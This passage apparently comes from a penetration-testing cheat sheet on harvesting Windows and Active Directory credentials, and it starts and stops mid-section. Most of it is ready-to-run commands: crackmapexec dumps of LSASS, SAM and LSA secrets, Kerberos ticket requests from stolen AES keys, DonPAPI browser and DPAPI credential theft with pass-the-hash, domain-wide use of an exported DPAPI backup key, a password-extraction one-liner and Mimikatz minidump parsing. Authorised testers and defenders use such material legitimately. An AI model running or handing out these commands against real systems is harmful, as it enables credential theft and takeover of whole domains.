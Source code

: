 ```bash
crackmapexec smb IP_ADDRESS/MASK -d 'DOMAIN'-u 'USER' -p 'PASSWORD' -M lsassy
```
Dump SAM (local hashes) :
```bash
crackmapexec smb IP_ADDRESS/MASK -d 'DOMAIN'-u 'USER' -p 'PASSWORD' --sam
```
Dump LSA secrets :
```bash
crackmapexec smb IP_ADDRESS/MASK -d 'DOMAIN'-u 'USER' -p 'PASSWORD' --lsa
```
Many possibilites here, if you get passwords or NTLM hashes, you know what to do. There's others possibilites too, like authenticating with AES keys (you can use 256 or 128 bits keys). You can get it by dumping LSA secrets. Once you get one, you can use the AES keys with Impacket to do whatever you want, and also get a TGT :
```bash
impacket-getTGT domain.local/username -aesKey AES_KEY -dc-ip DC_IP
```

### DonPAPI
Use DonPAPI to retrieve a lot of credentials (wifi, dpapi keys, browsers passwords, ...) :
```bash
python3 DonPAPI.py DOMAIN/USERNAME:PASSWORD@IP_ADDRESS
```
It's possible to use the tool with Pass-The-Hash :
```bash
python3 DonPAPI.py DOMAIN/USERNAME@IP_ADDRESS --hashes LM:NT
```
If you get a valid admin account, dump the domain backup key. This backup key (.pvk) can then be used to dump all domain user's secrets :
```bash
impacket-dpapi backupkeys --export -t domain.local/username@DC_FQDN -k -no-pass
```
Then, use the domain backup key on all machine, with one command. Extract all FQDN in a file (targets for example) and then :
```bash
python3 DonPAPI.py -pvk pathtofile.pvk domain.local/username@targets -k -no-pass
```
You can parse the output by using this magic one-liner :
```bash
cat DonPapiOutput.txt | grep -ae 'Firefox Password' -e 'Chrome Password' | cut -d : -f 3 | cut -d ' ' -f 2 | sort | uniq >> motdepasse.txt && cat DonPapiOutput.txt | grep -ae '\[mRemoteNG\]' | cut -d : -f 2 | cut -d ' ' -f 1 | sort | uniq >> motdepasse.txt & cat motdepasse.txt | sort | uniq | sed "s,\x1B\[[0-9;]*[a-zA-Z],,g" > motdepasse.txt
```

### Mimikatz
On Windows, retrieve password/hash from a dump file :
```powershell
sekurlsa::minidump "XXXXXXXXX.DMP"
sekurlsa::logonPasswords
```
On Kali, use pypykatz based on python :
```bash
pypykatz lsa minidump 'XXX.DMP'
```
### Others
Native Windows command :
```markdown
rundll32 keymgr.dll, KRShowKeyMgr
```
Savoir : Mimikatz recompiled in Go lang : <https://github.com/vincd/savoir>
## Impersonation
To execute commands with another account :
```powershell
$password = ConvertTo-SecureString 'pasword_of_user_to_run_as' -AsPlainText -Force
```